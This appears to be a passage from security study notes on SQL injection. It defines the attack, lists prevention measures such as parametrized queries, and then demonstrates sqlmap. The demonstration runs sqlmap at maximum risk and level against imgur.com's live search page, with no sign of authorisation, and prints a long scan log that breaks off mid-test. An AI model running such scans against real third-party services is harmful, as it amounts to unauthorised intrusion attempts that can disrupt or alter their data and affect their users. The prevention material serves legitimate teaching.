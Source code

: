 
## 4. SQL injection
- SQL Injection (SQLi) is a type of injection attack that makes it possible to execute malicious SQL statements. 
- These statements control a database server behind a web application. 
- Attackers can use SQL Injection vulnerabilities to bypass application security measures. 
- They can go around authentication and authorization of a web page or web application and retrieve the content of the entire SQL database. 
- They can also use SQL Injection to add, modify, and delete records in the database.

#### How to prevent SQLi? 
- The only sure way to prevent SQL Injection attacks is input validation and parametrized queries including prepared statements. 
- The application code should never use the input directly. 
- The developer must sanitize all input, not only web form inputs such as login forms. 
- They must remove potential malicious code elements such as single quotes. 
- It is also a good idea to turn off the visibility of database errors on your production sites. 
- Database errors can be used with SQL Injection to gain information about your database.
- SQLi can be done by both url querries f.e. (imgur.com/search/score?q=otter) or by passing the SQL queries directly through the text forms.

#### Exploitation - SQLmap tool
- SQLmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.
- Works with many database types, MySQL, mssql, etc...
- We'll start by using this tool to get the information about the injectability of the imgur service.
- Let's use the imgur search bar for this task once again.
- This command uses the most advanced level of testing because of the --risk and --level options.

```bash
sqlmap --risk=3 --level=5 -u "https://imgur.com/search?q=otter"
```

- Command line export of SQLmap process 

```bash
root@kali:~# sqlmap --risk=3 --level=5 -u "https://imgur.com/search?q=otter"

[*] starting at 00:23:09

[00:23:09] [INFO] testing connection to the target URL
[00:23:10] [INFO] testing if the target URL content is stable
[00:23:10] [INFO] target URL content is stable
[00:23:10] [INFO] testing if GET parameter 'q' is dynamic
[00:23:11] [INFO] confirming that GET parameter 'q' is dynamic
[00:23:11] [INFO] GET parameter 'q' is dynamic
[00:23:12] [WARNING] heuristic (basic) test shows that GET parameter 'q' might not be injectable
[00:23:12] [INFO] testing for SQL injection on GET parameter 'q'
[00:23:12] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:23:14] [WARNING] reflective value(s) found and filtering out
[00:24:12] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[00:25:14] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[00:26:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:26:56] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:27:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[00:27:36] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[00:27:47] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[00:27:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[00:28:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[00:28:46] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[00:29:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[00:29:40] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
```